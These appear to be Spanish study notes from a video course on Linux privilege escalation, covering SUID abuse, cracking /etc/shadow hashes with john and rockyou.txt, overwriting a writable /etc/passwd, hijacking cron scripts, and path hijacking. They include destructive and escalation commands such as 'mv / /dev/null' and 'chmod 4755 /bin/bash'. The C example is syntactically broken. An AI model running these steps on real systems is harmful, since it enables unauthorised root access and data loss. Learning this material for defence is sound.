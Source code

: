 # video 8

//saber quien soy
whoami

//saber algo del sistema
uname -a
lsb_realease -a

//como root asignar el permiso suid a find
chmod 4755 /usr/bin/find

//cambiamos de usuario
su pepitoe
//buscamos ficheros con esos permisos
find / \-perm 4000 2>/dev/null

//cosas turbias 
mv / /dev/null

//buscar por fichero donde podamos escribir

find /etc/ \-writable 


## Algoritmos de encriptación
cat /etc/login.defs | grep "ENCRYPT_METHOD"

cat /etc/shadow | grep pepito



https://sniferl4bs.com/2020/02/adios-rockyou.txt-bienvenido-kaonashi.txt/

https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwjNt9jQ3-D7AhXmzIUKHXtGBwUQFnoECAoQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd

aqui podemos bajar el fichero rockyou.txt con todas contraseñas

para nuestra prueba usamos "pepito" 

cat rockyou.txt | grep "^pepito$"

//para saber la linea

cat rockyou.txt | grep "^pepito$" -n



si podemos hacernos con un hash $6$ -> sha512

cat /etc/shadow | grep usuario -> hash

Con john:

john --wordlists=/usr/share/wordlists/rockyou.txt hash

Si concuerda el algoritmo de encriptacion que es compatibles con john, empezara a comparar el hash con los que va generar john mediante la lista de constraseñas usuales.


Otra cosas que debemos de tener muy encuenta son los permisos que debemos darle a nuestro ficheros

Una mala configuracion  nos la cuelan.

desde un usuario "pepito" , si tengo permisos de escritura en /etc/passwd

find /etc/ \-writable 2>/dev/null

-> /etc/passwd

openssl passwd -> crear contraseña

hash-identifier -> identificar tipo de cifrado
hashid -> 

con capacidad de escritura 

nano /etc/passwd

root:x:0:0:root:/root:/bin/bash
root:hash-generado-openssl:0:0:root:/root:/bin/bash

su root -> entramos con el usuario root y comprobará el hash
con el que hay en el fichero /etc/passwd no /etc/shadow



# video 9 Explotación de tareas cron
cd /etc/cron.d

service cron status

//antes de iniciarlo creamos una tareas cron

nano tarea

//cada minuto se esta ejecutando esta tarea
* * * * * root /home/s4vitar/Desktop/file.sh

cd /home/s4vitar/Desktop/file.sh

nano file.sh

sleep 10
#borra todo los ficheros temporales
rm -r /tmp/*


//ahora partiendo de una usuario no privilegios -> convertirnos en root


service cron status

chmod o+wx file.sh




# video 10 detección de tareas cron a traves de un script

comprobamos nuestros privilegios/permisos en linux

whoami
id
sudo su
uname -a
lsb_realease -a

//no iriamos a ficheros con suid, que tengan capacidad de escritura por parte de mi usuario

el objetivo es crear un programa en bash para ver las tareas que
se estan ejecutando en tiempo real

touch procmon.sh
chmod +x !$ -> permisos de ejecucion
nano !$


//concepto
touch {file1, file2}
nano file1 -> hola\n que\n tal\n
nano file2 -> adios\n que\n tal\n
diff file1 file2


con la ayuda del comando ps -eo command
#!/bin/bash -> cabeceras

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    # [] cualquier caracter que este en los corchete
    # "key" cualquier linea que contenga -> con la opcion -v las elimina
    diff  <(echo "$old_process") <(echo "$new_process") | grep "[\<\>]" | grep -v "kworker"
    old_process=$new_process
done

al ejecutarlo, podemos ver los precesos cron que se están ejecutando, aunque sea el root el que lo haga

Posteriormente si identificamos un proceso podemos ir a la ruta de donde se encuentra el fichero
y si los permisos no estan bien configurados, podemos modificar ese script y por ejemplo

chmod 4755 /bin/bash -> ponernos un permiso suid en la shell


//Con watch podemos ver los cambios que se realizan en un fichero por ejemplo cada x segundos
watch -d -n 1 ls -l /bin/bash


Cuando /bin/bash se le haya aplicado el permiso suid ya podriamos lanzar una  shell

bash
bash -p -> activando el flag suid


# explotacion de un path hijacking frente a un binario suid

touch backup.sh

//ruta relativa
cat /etc/hosts
//ruta absoluta
which cat
//ver el tipo de un fichero
file /bin/cat
/bin/cat /etc/hosts



#include <stdio.h>
void main(){

    setuid(0)
    //por ruta absoluta
    print(\n[*] Listando procesos (/usr/bin/ps):\n\n);
    system("/usr/bin/ps");

    print(\n[*] Listando procesos (ps):\n\n);
    system("ps");


}

Compilamos
gcc backup.sh -o backup

si le damos permisos de ejecucion

chmod 4755 backup

Con esto podria ejecutarlo otro usuario con el contexto que de que podemos
ejecutar el fichero desde otros, pero nada más, ya que no tenemos permisos de escritura y no podriamos sobreescribir el fichero, además que es un ejecutable.

